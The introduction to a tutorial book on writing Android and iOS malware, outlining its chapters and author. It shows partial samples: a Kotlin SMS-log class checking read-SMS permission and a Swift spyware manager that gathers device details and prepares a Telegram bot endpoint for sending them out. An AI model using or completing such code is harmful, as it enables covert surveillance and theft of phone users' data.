 ## 2. mobile malware development intro

﷽

In this book I will show you a little about how you can create simple malware on `Android` and `iOS`, and I will show examples and tricks from real malware found in the wild during the years.      

Most of the tutorials in this book require a understanding of the `Kotlin`:    

```kotlin
package cocomelonc.hack.tools

import android.Manifest
import android.annotation.SuppressLint
import android.content.Context
import android.content.pm.PackageManager
import android.net.Uri
import android.provider.Telephony.Sms

class HackSmsLogs (private val context: Context) {
    @SuppressLint("NewApi")
    private fun isSmsPermissionGranted(context: Context): Boolean {
        val isGranted = context.checkSelfPermission(Manifest.permission.READ_SMS)
        return isGranted == PackageManager.PERMISSION_GRANTED
    }
    //....
}
```

and `Swift` programming languages:

```swift
import Foundation
import SystemConfiguration.CaptiveNetwork
import Network

public class HackManager {
    public static let shared = HackManager(); private init() {}
    public var botToken: String = ""
    public var chatId: String = ""
    private let locationManager = LocationManager()
    private let monitor = NWPathMonitor()

    private var telegramApiUrl: String {
        return "https://api.telegram.org/bot\(botToken)/sendMessage"
    }
    
    // collect systeminfo
    private func collectSystemInfo() throws -> String {
        let device = UIDevice.current
        let processInfo = ProcessInfo.processInfo
        
        let systemName = processInfo.operatingSystemVersionString
        let hostName = processInfo.hostName
        let userName = NSUserName()
        let mem = processInfo.physicalMemory / (1024 * 1024 * 1024)
        let model = device.localizedModel
        let batteryLevel = device.batteryLevel
        let deviceName = device.name

        let systemInfo = """
        📱 System Info:
        📱 Version IOS: \(systemName)
        📱 Device name: \(deviceName)
        📱 Host Name: \(hostName)
        📱 User Name: \(userName)
        📱 Model: \(model)
        📱 Memory usage: \(mem) GB
        📱 Battery level: \(Int(batteryLevel * 100))%
        """
        return systemInfo
    }
}
```

The book is divided into three logical chapters:    
- Android Malware Development Intro    
- iOS Malware Development Intro    
- Mobile Malware in the Wild (still in progress...)    

*Please do not ignore sections 4,5,6 (even if you've already read it just refresh your memory) these are important concepts for future mobile malware sections**    

All material in the book is based on my trainings/workshop from
[Prishtina](https://github.com/cocomelonc/bsprishtina-2024-maldev-workshop/) and [my](https://cocomelonc.github.io/) own articles.    

If you have questions, you can ask them on my [email](mailto:cocomelonkz@gmail.com).    

My Github repo: [https://github.com/cocomelonc](https://github.com/cocomelonc)    

**Everything written in this book was used for understanding concepts and for educational and research purposes, the author is not responsible for your illegal activities!**    